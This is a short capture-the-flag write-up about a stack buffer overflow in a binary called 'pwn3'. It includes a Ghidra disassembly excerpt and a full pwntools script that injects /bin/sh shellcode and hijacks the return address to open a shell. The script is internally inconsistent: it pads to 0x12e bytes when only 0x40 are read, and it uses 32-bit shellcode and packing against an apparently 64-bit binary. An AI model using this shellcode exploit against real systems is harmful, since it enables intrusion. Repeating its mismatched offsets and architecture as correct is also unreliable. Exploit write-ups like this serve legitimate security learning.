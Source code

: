 # Shellcode

Looking through this code, we see that it prints a lot of text. However there are two important sections. The first is where it scans in the data:

```
  sVar1 = read(0,input,0x40);
```

We can see that it scans in `0x40` bytes worth of input into `input`. The char array `input` can only hold `32` bytes worth of input, so we have an overflow. Also we can see that the address printed is an infoleak (information about the program that is leak) for the start of our input in memory on the stack:\\

Looking at the stack layout in Ghidra, there doesn't really look like there is anything between the start of our input and the return address. With our overflow we should be able to overwrite the return address and get code execution:

```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined FUN_004009a6()
             undefined         AL:1           <RETURN>
             undefined[32]     Stack[-0x28]   input                                   XREF[2]:     00400aa4(*), 
                                                                                                   00400acf(*)  
                             FUN_004009a6                                    XREF[4]:     entry:004008cd(*), 
                                                                                          entry:004008cd(*), 00400de0, 
                                                                                          00400e80(*)  
        004009a6 55              PUSH       RBP
       
```

```
from pwn import *

# Start the process
target = process('./pwn3')

# Print out the text, up to the address of the start of our input
print(target.recvuntil(b"journey ").decode())

# Read the next line and decode to string
leak = target.recvline().decode()

# Strip away characters not part of the address and convert from hex string to int
shellcodeAdr = int(leak.strip("!\n"), 16)

# Shellcode from: http://shell-storm.org/shellcode/files/shellcode-827.php
shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68" \
            b"\x68\x2f\x62\x69\x6e\x89\xe3\x50" \
            b"\x53\x89\xe1\xb0\x0b\xcd\x80"

# Pad the payload with null bytes to reach return address offset
payload = shellcode.ljust(0x12e, b"\x00")

# Append the leaked return address pointing to shellcode
payload += p32(shellcodeAdr)

# Send the payload
target.sendline(payload)

# Get an interactive shell
target.interactive()

```
